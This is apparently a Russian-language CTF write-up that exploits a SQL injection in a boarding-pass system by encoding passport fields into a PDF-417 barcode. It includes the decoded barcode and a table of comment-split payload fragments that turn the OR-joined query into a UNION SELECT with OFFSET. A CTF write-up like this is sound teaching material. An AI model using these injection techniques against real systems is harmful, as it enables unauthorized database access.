 # Пепелац девелопмент

Проанализируем исходный код и найдем место, уязвимое к SQL инъекции:

![Уязвимый код](sqli.png)

Осталось понять откуда берется `leg.document_number` и как обойти мешающий нам `" OR ".join()`

### `leg.document_number`

Просмотрев код еще пару раз, понимаем, что данное значение получается при парсинге штрихкода билета PDF-417, который можно сгенерировать на [its-cosmoflot-emf9yki3.spbctf.ru](http://its-cosmoflot-emf9yki3.spbctf.ru/). Так как он имеет определенную длину - 10 цифр (что определенно мало для эксплуатаии SQLi), оформим билет с максимально возможным количеством рейсов:

![Оформление билета](ticket_registration.png)
<hr>

![Билет](ticket.png)

Раздекодим билет для дальнейшей эксплуатации, я воспользовался [данным сайтом](https://products.aspose.app/barcode/recognize):

```
M9ASD/ASD             EFT5LSE EARMARCF 1506 197Y015B0080 13B>60B1PP2197PCF 2A991300000000331CF                     0K NTANX3V MAREARCF 1507 197Y015B0074 12C2A991300000000331CF                     0K NNHHYCT EARMARCF 1506 197Y015B0010 12C2A991300000000331CF                     0K NHWR40R MAREARCF 1507 197Y015B0038 12C2A991300000000331CF                     0K NPPSIWY EARMARCF 1506 197Y015B0008 12C2A991300000000331CF                     0K NJW27YM MAREARCF 1507 197Y015B0055 12C2A991300000000331CF                     0K N1JZNRZ EARMARCF 1506 197Y015B0008 12C2A991300000000331CF                     0K NXK3BY3 MAREARCF 1507 197Y015B0035 12C2A991300000000331CF                     0K NO23JDQ EARMARCF 1506 197Y015B0086 12C2A991300000000331CF                     0K N
```

### " OR ".join()

Обойдем данное "ограничение" при помощи комментариев языка SQL:

| Номер рейса | Значение пасспорта |
|:-----------:|:------------------:|
| 1           | `1 UNION /*`       |
| 2           | `*/SELECT/*`       |
| 3           | `*/* FROM/*`       |
| 4           | `*/ban   /*`       |
| 5           | `*/OFFSET/*`       |
| 6           | `*/1; --   `       |

Заменим первые шесть значений *30000000003* на новые. После объединения, запрос примет такой вид:

```sql
SELECT * FROM ban WHERE passport = 1 UNION /* OR passport = */SELECT/* OR passport = */* FROM/* OR passport = */ban   /* OR passport = */OFFSET/* OR passport = */1; --  OR passport = 3000000003
/* Что эквивалентно */
SELECT * FROM ban WHERE passport = 1 UNION SELECT * FROM ban OFFSET 1;
```

Генерирует штрихкод и пробуем с ним пройти на посадку:

![Первый оффсет](offset_1.png)

Не получилось, попробуем с `OFFSET 2`:

![Второй оффсет](offset_2.png)
